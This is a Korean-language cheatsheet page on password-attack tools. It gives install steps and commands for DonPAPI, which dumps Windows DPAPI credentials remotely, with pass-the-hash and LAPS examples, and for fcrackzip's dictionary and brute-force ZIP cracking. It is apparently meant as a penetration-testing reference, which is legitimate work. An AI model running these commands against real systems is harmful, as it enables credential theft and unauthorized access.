

repository: naaamgi/my-docusaurus-page · page: cheatsheet/password-attacks/misc-tools/index.html · generator: docusaurus

---
sidebar_position: 8
---

# 기타 Password Tools

기타 유용한 비밀번호 관련 도구들입니다.

## DonPAPI

> https://github.com/login-securite/DonPAPI

원격으로 DPAPI 자격증명을 덤프하는 도구입니다.

### 설치

```bash
git clone https://github.com/login-securite/DonPAPI.git
cd DonPAPI
pip install -r requirements.txt
```

### 사용법

```bash
# 기본 사용
DonPAPI <DOMAIN>/<USERNAME>:<PASSWORD>@<RHOST>

# 로컬 인증
DonPAPI -local_auth <USERNAME>@<RHOST>

# NTLM 해시 사용
DonPAPI --hashes <LM>:<NT> <DOMAIN>/<USERNAME>@<RHOST>

# LAPS 비밀번호 포함
DonPAPI -laps <DOMAIN>/<USERNAME>:<PASSWORD>@<RHOST>
```

### 예제

```bash
# 도메인 자격증명
DonPAPI corp.local/admin:Password123@10.10.10.100

# Pass-the-Hash
DonPAPI --hashes :aad3b435b51404eeaad3b435b51404ee corp.local/admin@10.10.10.100

# 로컬 계정
DonPAPI -local_auth administrator@192.168.1.10
```

---

## fcrackzip

ZIP 파일 비밀번호 크래커입니다.

### 설치

```bash
# Kali Linux
sudo apt install fcrackzip
```

### 사용법

```bash
# Dictionary attack
fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt file.zip

# Brute-force (숫자 4자리)
fcrackzip -u -b -c '1' -l 4-4 file.zip

# Brute-force (소문자 6자리)
fcrackzip -u -b -c 'a' -l 6-6 file.zip

# Brute-force (영문+숫자 8자리)
fcrackzip -u -b -c 'aA1' -l 8-8 file.zip
```
